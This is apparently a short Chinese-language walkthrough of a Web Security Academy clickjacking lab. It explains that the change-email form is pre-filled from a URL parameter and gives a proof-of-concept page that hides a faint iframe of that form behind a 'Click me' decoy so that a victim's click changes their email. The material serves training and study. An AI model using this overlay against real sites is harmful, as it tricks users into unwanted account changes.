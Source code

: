 修改email界面可以通过url控制输入框的预填充值

![](images/64C7AD97E2DE4D789CDB6C1CEFC3B79Cclipboard.png)



构造poc进行点击劫持：

```javascript
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:470px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acea1f8f1fc2b1dc80ed062a00db004e.web-security-academy.net/email?email=123@qq.com"></iframe>
```

